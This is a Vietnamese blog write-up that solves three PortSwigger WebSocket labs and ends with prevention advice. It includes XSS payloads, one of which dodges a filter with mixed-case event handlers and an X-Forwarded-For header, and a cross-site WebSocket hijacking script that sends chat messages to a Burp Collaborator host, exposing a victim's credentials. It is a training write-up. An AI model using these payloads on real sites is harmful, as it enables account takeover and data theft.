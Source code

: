 ```yaml
---
title: "[PortSwigger Lab] - WebSockets"
description: Solution of WebSockets Lab
date: 2025-06-23 18:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, websockets]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-23-portswigger-lab-websockets/websockets.png
    alt: WebSockets
---
```


## Introduction
---
### **WebSockets**
**WebSocket** là một giao thức giao tiếp hai chiều **(bi-directional)** và toàn song công **(full duplex)**, được khởi tạo thông qua **HTTP**. **WebSocket** thường được sử dụng trong các ứng dụng web hiện đại để truyền dữ liệu theo **thời gian thực** hoặc các dữ liệu **bất đồng bộ (asynchronous)**.

| Đặc điểm              | HTTP                                    | WebSocket                                               |
| --------------------- | --------------------------------------- | ------------------------------------------------------- |
| Kiểu giao tiếp        | Yêu cầu – Phản hồi (Request – Response) | Hai chiều – có thể gửi nhận bất kỳ lúc nào              |
| Kết nối               | Thường kết thúc sau mỗi phản hồi        | Giữ kết nối lâu dài cho đến khi client hoặc server đóng |
| Gửi dữ liệu từ server | Không thể chủ động                      | Có thể chủ động gửi từ server đến client bất kỳ lúc nào |
| Ứng dụng điển hình    | Truy cập trang web, API đơn giản        | Chat, dữ liệu tài chính theo thời gian thực, game, v.v. |

## Solve WebSockets Lab
--- 
### Lab: Manipulating WebSocket messages to exploit vulnerabilities
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy dữ liệu được **encode** rồi mỗi gửi đi thông qua **websocket** => Điều này chỉ hoạt động tốt trên trình duyệt

```js
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```
- Đến **Proxy** > **WebSockets history** > chọn **request** có chứa tin nhắn đã gửi và gửi đến **Repeater**
- Gửi lại **request** với **payload**

```json
{"message":"<img src=1 onerror=alert()>"}
```
- **Reload page** để xem kết quả
- Gửi thông qua **Repeater** để bỏ qua bước **encode** đầu vào => **XSS** xảy ra

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy dữ liệu được **encode** rồi mỗi gửi đi thông qua **websocket** => Điều này chỉ hoạt động tốt trên trình duyệt

```js
function htmlEncode(str) {
    if (chatForm.getAttribute("encode")) {
        return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
            var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
            return lookup[c];
        });
    }
    return str;
}
```
- Đến **Proxy** > **WebSockets history** > chọn **request** có chứa tin nhắn đã gửi và gửi đến **Repeater**
- Gửi lại **request** với **payload**

Request
```json
{"message":"<img src=1 onerror=alert(1)>"}
```

Response
```json
{"error":"Attack detected: Event handler"}
```
- Không chấp nhận **event** `onerror`
- Ứng dụng sẽ ngắt kết nối sau khi `Attack detected` => Không gửi được tin nhắn
- Click **Reconnect** và thêm trường `X-Forwarded-For: 1.1.1.1` để thao túng **handshake** > **Connect**
- **Server** chấp nhận kết nối, ta sửa **payload** và gửi lại

```json
{"message":"<img src=1 oNeRrOr=alert`1`>"}
```
- **XSS** xảy ra
- Nếu sử dụng  `alert(1)` => `"error":"Attack detected: Alert"`

### Lab: Cross-site WebSocket hijacking
- Gửi 1 tin nhắn bất kỳ 
- Quan sát `/resources/js/chat.js` ta thấy ứng dụng khởi tạo **WebSocket**
- Để bắt đầu cuộc trò chuyện **client** phải gửi `"READY"`

```js
newWebSocket.onopen = function (evt) {
    writeMessage("system", "System:", "No chat history on record");
    newWebSocket.send("READY");
    res(newWebSocket);
};
```
- **Client** chờ và nhận **message** hiển thị ra

```js
newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    writeMessage("abcxyz");
    ...
}
```
- Đến **exploit server** và thêm **script** vào body > **deliver to victim**

```html
<script>
let newWebSocket = new WebSocket("wss://0adc00f803ce77578009120500030005.web-security-academy.net/chat");

newWebSocket.onopen = function () {
    newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
    var message = evt.data;
    fetch(`https://oe6zhtw7tilwkwhbomnhcwareik98zwo.oastify.com/${encodeURIComponent(message)}`);
};

</script>
```
- Khi **client** truy cập vào => khởi tạo kết nối **WebSocket** => lấy **message** được **server** gửi về và gửi đến **Burp Collaborator**
- Đến **Burp Collaborator** > **Poll now** để nhận request đến 
- Quan sát các **path**, bôi đen và nhìn sang tab **Inspector** => account của `carlos` 
- Login bằng account `carlos`

## Prevent
---
### Using **wss:// (TLS)**
- Mã hóa kết nối để ngăn kẻ tấn công nghe lén hoặc sửa đổi dữ liệu.

### Do not generate **WebSocket URL** from user data

```js
// ❌ Không làm:
var ws = new WebSocket("wss://" + location.host + userInput + "/chat");

// ✅ Làm đúng:
var ws = new WebSocket("wss://example.com/chat");
```

### Protect **handshake** from **CSRF**
**WebSocket** không hỗ trợ **SameSite cookie** hoặc gửi **header Origin** đầy đủ như **HTTP POST/GET**, nên cần bảo vệ thủ công.
- Kiểm tra **Origin** hoặc **Referer** trong **request handshake**
- Sử dụng **CSRF token**:
    - **Client** gửi **token** trong **message** đầu tiên (ví dụ `"INIT": "csrf_token"`).
    - **Server** kiểm tra **token** trước khi cho phép thực hiện hành động.

### Treat **WebSocket** data as untrusted data
Dữ liệu từ **WebSocket** có thể đến từ **attacker** — cần **escape**, **validate**, và **sanitize** đầy đủ.

| Kiểu tấn công         | Biện pháp                                         |
| --------------------- | ------------------------------------------------- |
| **SQL Injection**     | Dùng prepared statement, không chèn trực tiếp     |
| **XSS**               | Escape đầu ra (`htmlEncode`, `CSP`, DOMPurify...) |
| **Command injection** | Không chạy dữ liệu đầu vào trong shell            |

---
Goodluck! 🍀🍀🍀 


